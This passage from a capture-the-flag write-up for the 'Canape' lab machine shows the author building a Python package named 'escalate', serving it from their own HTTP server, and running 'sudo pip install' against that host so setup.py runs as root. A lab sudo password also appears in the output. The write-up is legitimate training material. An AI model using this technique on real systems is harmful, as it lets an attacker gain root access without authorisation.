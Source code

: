 ```bash

running check
warning: check: missing required meta-data: url

warning: check: missing meta-data: either (author and author_email) or (maintainer and maintainer_email) must be supplied

creating escalate-0.0.1
creating escalate-0.0.1/escalate.egg-info
copying files to escalate-0.0.1...
copying setup.py -> escalate-0.0.1
copying escalate.egg-info/PKG-INFO -> escalate-0.0.1/escalate.egg-info
copying escalate.egg-info/SOURCES.txt -> escalate-0.0.1/escalate.egg-info
copying escalate.egg-info/dependency_links.txt -> escalate-0.0.1/escalate.egg-info
copying escalate.egg-info/top_level.txt -> escalate-0.0.1/escalate.egg-info
Writing escalate-0.0.1/setup.cfg
creating dist
Creating tar archive
removing 'escalate-0.0.1' (and everything under it)
```

Finally, we move the `dist/escalate-0.0.1.tar.gz` file that was generated to a new folder named `escalate` and run a simple python HTTP server:
```bash
❯❯❯ sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.70 - - [18/Jul/2018 09:10:02] "GET /escalate/ HTTP/1.1" 200 -
10.10.10.70 - - [18/Jul/2018 09:10:02] "GET /escalate/escalate-0.0.1.tar.gz HTTP/1.1" 200 -
```

We can already see the HTTP requests from the box. To generate them, from the homer shell, run:
```bash
homer@canape:~$ sudo pip install --index-url http://10.10.15.78/ escalate
sudo pip install --index-url http://10.10.15.78/ escalate
[sudo] password for homer: 0B4jyA0xtytZi7esBNGp

The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Collecting escalate
  The repository located at 10.10.15.78 is not a trusted or secure host and is being ignored. If this repository is available via HTTPS it is recommended to use HTTPS instead, otherwise you may silence this warning and allow it anyways with '--trusted-host 10.10.15.78'.
  Could not find a version that satisfies the requirement escalate (from versions: )
No matching distribution found for escalate
homer@canape:~$ sudo pip install --index-url http://10.10.15.78/ --trusted-host 10.10.15.78 escalate
<stall --index-url http://10.10.15.78/ --trusted-host 10.10.15.78 escalate   
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Collecting escalate
  Downloading http://10.10.15.78/escalate/escalate-0.0.1.tar.gz
Installing collected packages: escalate
  Running setup.py install for escalate ... 
```
